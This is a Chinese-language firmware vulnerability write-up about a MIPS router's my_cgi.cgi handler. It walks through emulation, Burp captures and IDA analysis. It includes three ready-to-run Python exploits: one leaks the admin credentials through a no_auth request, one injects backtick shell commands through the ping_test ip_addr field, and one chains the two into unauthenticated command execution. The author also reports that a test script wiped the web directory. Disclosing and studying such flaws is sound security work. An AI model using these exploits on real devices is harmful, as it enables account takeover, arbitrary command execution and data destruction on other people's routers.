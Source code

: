 # 基础分析
binwalk看一下固件的基础信息
![[54a79d4c243dfb510d4f1c90272d1df.png]]
得知固件是mips的小端序，文件系统为squashfs，再binwalk -Me 解压这个固件
先用FirmAE 调试模式模拟这个固件，选2进入这个固件的shell模式
![[Pasted image 20240727190040.png]]
firmwalker-pro-max信息
![[Pasted image 20240727213845.png]]
这里告诉了我们固件的初始密码（这是没有设置初始密码的时候）
# 敏感信息泄露漏洞
用burp自带的浏览器打开192.168.0.1，发现需要密码登录
![[Pasted image 20240727190217.png]]
## 思路一
此时我们也不知道密码是什么，于是想着随便输一串密码，用burp抓个包看看能不能或许到什么信息
看到抓到了四个POST请求的包，且都返回了200
![[Pasted image 20240727190700.png]]
我们从第一个开始一个一个点进去看一下
![[Pasted image 20240727190927.png]]
我们发现，"no-auth"没有认证字样，且table_name的参数信息都打印在了返回包中，那么我们猜测：是不是我们在没有认证的情况下，把table_name的参数改成我们想要的用户名和密码就能得到账户和密码信息呢，如果是的话这就是个信息泄露的漏洞点了，带着猜测我们接着看下面的抓包内容
![[Pasted image 20240727191556.png]]
我们发现同样是请求的my_cgi.cgi，但是request的参数变成了login，且出现了admin_user_name 和 admin_user_pwd可疑字样，结合之前的table_name，这里我们猜测是不是把table_name里面的参数改成admin_user_name 和 admin_user_pwd就可以在返回包打印出来呢？尝试一下
在此之前我们决定再看一下后面两个请求包，发现只要是请求了my_cgi.cgi，且request=no_auth，table_name参数的信息就会被返回包所打印出来
![[Pasted image 20240727192053.png]]
那么我们随便拿其中一个请求包，把table_name中的参数改为我们想要的admin_user_name 和 admin_user_pwd其余信息不变
![[Pasted image 20240727192505.png]]
这里发现并没有返回出来打印信息，这里怀疑参数名字可能不对，于是去找my_cgi.cgi这个二进制文件分析一下
![[Pasted image 20240727192830.png]]
找到在/usr/bin下面，checksec一下发现没有什么保护，拿出来放到IDA里分析一下
进到IDA里，我们直接去搜了一下关键字admin_user_name 和 admin_user_pwd
![[Pasted image 20240727193134.png]]
只找到了这一处，点进去看一下交叉引用到哪里了
![[Pasted image 20240727193535.png]]
第二个交叉引用点，我们结合burp抓到的返回包是有打印什么信息的，而第二个没有打印操作，所以我们暂不分析，而第一个交叉引用点有打印信息的操作，我们先分析一下它都打印了什么，与抓到的包作个对比
![[Pasted image 20240727194027.png]]
经过分析后，它是将"OK"或者"ERROR"打印出来，那么我们所抓到的包并没有是返回这两个字符的
那么我们再想，既然有回显，那么我们去找回显出来的关键字，比如hw_ver
![[Pasted image 20240727195634.png]]
![[Pasted image 20240727195647.png]]
我们交叉引用到了load_settings这个函数中，我们往回看load_settings这不就是第二个request的参数嘛，那么我们思考，要想打印出来table_name参数信息，load_settings这个参数不能少
load_settings这个函数主要是对比各个字符串，然后再打印其信息，也就是说，table_name传什么参数，它就会打印哪个参数的信息
![[Pasted image 20240727200839.png]]
这里也发现了个图片验证码的信息，只要把table_name的参数改为create_auth_pic即可获得验证码
![[Pasted image 20240727203159.png]]
那么我们接下来就该找密码的参数到底是怎么定义的了
我们接着追溯一下load_settings这个函数的上层引用，一直追溯到main函数中
![[Pasted image 20240727203312.png]]
至此我们找到了这两个参数信息，我们尝试把table_name的参数改为这俩个，看看能不能打印出来什么有用信息
![[Pasted image 20240727203531.png]]
至此我们找到了当是admin的时候，admin_level=1，admin_user_pwd=admin123456，当是user的时候，user_level=0,user_user_pwd= ，这时看来确实是敏感信息泄露漏洞。
![[Pasted image 20240727204437.png]]
果然登录成功了
## EXP
```
import requests

ip = "192.168.0.1:80"
payload = "admin_user"

url = "http://"+ip+"/my_cgi.cgi"
Headers = {"Referer": "http://"+ip+"/login_real.htm"}
Data = "request=no_auth&request=load_settings&table_name="+payload+""
response = requests.post(url, headers=Headers, data=Data)
print(response.text)
```

# 命令执行漏洞
看到ping的框，DNA在动，尝试先正常输入一个ip会显示什么
![[Pasted image 20240728003513.png]]
那么再看一下输入带命令的会怎么样
![[Pasted image 20240728003659.png]]
这里可以知道，并不会在界面上有回显，0表示success，2表示unknown host
我们看一下shell模式里的www/下面有没有aaa.htm这个文件
![[Pasted image 20240728004028.png]]
发现确实存在但是没内容，难道没有写的权限嘛？
![[Pasted image 20240728004618.png]]
看了一下IDA关于这里的伪代码，发现好像也没什么过滤，只是执行了命令后写到了/tmp/ping_result里面，再读这个文件查看有没有执行结果，最后会删掉这个临时文件
![[Pasted image 20240728135552.png]]
这时候请出我们的老演员反双引号和 $()
![[Pasted image 20240728004707.png]]
显示成功了，去shell看一下有没有内容
![[Pasted image 20240728004807.png]]
很遗憾这次的$()返回了2，并没有写进去
再lighttpd找了一下有没有什么规则，好像并没有什么规则，于是试了一下.txt能不能打开，发现也可以在web端访问
![[Pasted image 20240728011854.png]]

## EXP
```
import requests

ip = "192.168.0.1"
payload = "`ps>aaa.htm`"

url = "http://"+ip+"/my_cgi.cgi"
Headers = {"Referer": "http://"+ip+"/tools_vct.htm"}
Data = "request=ping_test&ip_addr="+payload+""
requests.post(url, headers=Headers, data=Data)

url1 = "http://"+ip+"/aaa.htm"
response = requests.get(url1)
print(response.text)
```

# 未授权
根据之前的敏感信息泄露以及命令执行相结合来看，猜测只要request的参数有no_auth，那么就做到了未授权
直接测试一下，在不登陆的状态下，在命令执行的exp中的Data加上request=no_auth
```
import requests

ip = "192.168.0.1"
payload = "`ps>aaa.htm`"

url = "http://"+ip+"/my_cgi.cgi"
Headers = {"Referer": "http://"+ip+"/tools_vct.htm"}
Data = "request=no_auth&request=ping_test&ip_addr="+payload+""
requests.post(url, headers=Headers, data=Data)

url1 = "http://"+ip+"/aaa.htm"
response = requests.get(url1)
print(response.text)
```
![[Pasted image 20240728013516.png]]
发现执行成功了，那么也验证了我们的猜想
那么既然未授权了，岂不是想干嘛就干嘛想看什么就看什么嘛
那么只要把命令改为ls -R /那么就做到了未授权目录遍历的操作了（截取部分内容）
![[Pasted image 20240728014027.png]]

## EXP
```
import requests

ip = "192.168.0.1"
payload = "`ls -R />aaa.htm`"

url = "http://"+ip+"/my_cgi.cgi"
Headers = {"Referer": "http://"+ip+"/tools_vct.htm"}
Data = "request=no_auth&request=ping_test&ip_addr="+payload+""
requests.post(url, headers=Headers, data=Data)

url1 = "http://"+ip+"/aaa.htm"
response = requests.get(url1)
print(response.text)
```


# Tips：
身份绕过和未授权绕过有什么区别？
**身份绕过**: 攻击者绕过身份验证机制，伪装成合法用户进入系统。
**未授权绕过**: 攻击者绕过授权机制，访问或操作他们不被允许的资源或功能。
那么由此可以确认上述确实是个未授权漏洞，执行完exp_test.py后，/www下的所有文件确实都被删除了
![[Pasted image 20240728020454.png]]

# CVE
![[Pasted image 20240728021431.png]]
![[Pasted image 20240728021518.png]]
